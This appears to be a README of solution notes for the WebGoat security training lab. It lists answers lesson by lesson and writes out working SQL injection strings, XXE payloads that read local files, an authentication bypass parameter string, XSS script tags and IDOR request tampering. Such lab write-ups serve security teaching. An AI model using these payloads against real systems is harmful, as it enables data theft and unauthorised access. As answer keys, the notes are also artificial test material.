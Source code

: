 # WebGoat
## [General](./General/README.md)
## [Injection Flaws](./InjectionFlaws/README.md)
---
## Introduction [x]
### WebGoat [x]
* Read
### WebWolf [x]
* Install Webwolf, send email, write code from mail.
* Reset password, go to Webwolf get code
## General [x]
### Http basics [x]
* write something
* intercept HTTP, get header and read the answer
### Http Proxies [x]
* Intercept package, modify it to suite the task, make sure to modify properly the POST
```
/WebGoat/HttpProxies/intercept-request?changeMe=Requests%20are%20tampered%20easily HTTP/1.1
```
---
## Injection Flaws [ ]
### SQL Injeciton [x]
```SQL
smith' or '1' = '1
```
```SQL
1 or true
```
### SQL Injection advanced [ ]
```SQL
asd' or true; select * from user_system_data; --
```
```SQL
work in progress
```
### SQL Injeciton mitigation
```SQL
1' or true order by (case when (hostname = 'webgoat-prd') hostname else status;
```
* Solution: 192.168.4.0
### XXE
#### 3
```XML
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///" >]>
<comment>
  <text>aa&xxe;</text>
</comment>
```
#### 4
* Specify content type to be xml
```XML
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///" >]>
<comment>
  <text>aa&xxe;</text>
</comment>
```
#### 7
```XML
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:////home/USER/.webgoat/XXE/secret.txt" >]>
<comment>
  <text>a&xxe;</text>
</comment>
```
---
## Authentication Flaws [x]
### Authentication Bypass [x]
```js
(secQuestion0=aORtrue)&(secQuestion1=aORtrue)&jsEnabled=1&verifyMethod=SEC_QUESTIONS&userId=12309746
```
### JWT tokens (Under development) [x]
* In development, therefore passed by default
---
## Coss-Site Scripting (XSS) [ ]
### Cross Site Scripting
#### 3
* YES
#### 7
* Credit card number field
```jss
<script>alert('my javascript here')</script>
```
#### 10
* 2 ways - start.mvc#test/
  * go to lesson java file and check if condition
  * go to GoatRoute.js and find the solution
#### 11
* url + <script>webgoat.customjs.phoneHome()
## Access Control Flaws [ ]
### Insecure Direct Object References
#### 2
* tom cat
#### 3
* Intercept http request
```json
{
  "role": 3,
  "color": "yellow",
  "size": "small",
  "name": "Tom Cat",
  "userId": "2342384"
}
```
* Missing fields are `role` and `userId`
#### 4
* Intercept HTTP, path to profile `WebGoat/IDOR/profile/2342384`
### Missing Function Level Access Control
#### 2
* Enough to access the console and analyse the html page and check for links or other important info that are just commented out. Like the Admin panel.
#### 3
*
## Insecure Communication
### Insecure Login
* Intercept the login and use the intercepted credential to sign-in
## Request Forgeries
### Cross-Site Request Forgeries
*
## Vulnerable Components - A9
### Vulnerable Components
* It is enough to delete the content ```<contact></contact>```
## Client side
* To solve all this tasks it is enough to search in the html the needed fields and modify them
### Client side filtering
### Bypass front-end restriction
### HTML tampering
## Challenges
### WebGoat Challenge
### Admin lost password
### Get it for free
### Photo comments
### Voting
### Without password
### Creating a new account
### Admin Password
### Without account
### Changing password
